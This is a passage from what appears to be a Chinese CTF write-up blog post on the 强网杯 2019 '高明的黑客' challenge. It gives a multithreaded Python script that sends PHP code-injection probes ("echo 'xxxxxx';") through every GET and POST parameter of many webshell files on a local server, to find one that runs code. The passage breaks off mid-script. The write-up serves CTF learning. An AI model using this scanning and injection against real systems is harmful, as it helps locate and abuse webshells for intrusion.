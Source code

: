 ```yaml
---
layout:  post    # 使用的布局（不需要改）
title:  BUUCTF刷题二   # 标题 
subtitle:  #副标题
date:  2021-04-13  # 时间
author:  yanmie    # 作者
header-img: img/.jpg ##标签这篇文章标题背景图片
catalog: true      # 是否归档
tags:        
    - CTF



---
```






## [强网杯 2019]高明的黑客

下载附件，有很多 php 文件，打开有很多shell，但是没看到能用的。

写个脚本跑一跑。

把源码放到本地。



```python
import os
import requests
import re
import threading
import time
print('开始时间：  '+  time.asctime( time.localtime(time.time()) ))
s1=threading.Semaphore(100)  							  			#这儿设置最大的线程数
filePath = r"D:/soft/phpstudy/PHPTutorial/WWW/src/"
os.chdir(filePath)													#改变当前的路径
requests.adapters.DEFAULT_RETRIES = 5								#设置重连次数，防止线程数过高，断开连接
files = os.listdir(filePath)
session = requests.Session()
session.keep_alive = False											 # 设置连接活跃状态为False
def get_content(file):
    s1.acquire()												
    print('trying   '+file+ '     '+ time.asctime( time.localtime(time.time()) ))
    with open(file,encoding='utf-8') as f:							#打开php文件，提取所有的$_GET和$_POST的参数
            gets = list(re.findall('\$_GET\[\'(.*?)\'\]', f.read()))
            posts = list(re.findall('\$_POST\[\'(.*?)\'\]', f.read()))
    data = {}														#所有的$_POST
    params = {}														#所有的$_GET
    for m in gets:
        params[m] = "echo 'xxxxxx';"
    for n in posts:
        data[n] = "echo 'xxxxxx';"
    url = 'http://127.0.0.1/src/'+file
    req = session.post(url, data=data, params=params)			#一次性请求所有的GET和POST
    req.close()												# 关闭请求  释放内存
    req.encoding = 'utf-8'
    content = req.text
    #print(content)
    if "xxxxxx" in content:									#如果发现有可以利用的参数，继续筛选出具体的参数
        flag = 0
        for a in gets:
            req = session.get(url+'?%s='%a+"echo 'xxxxxx';")
```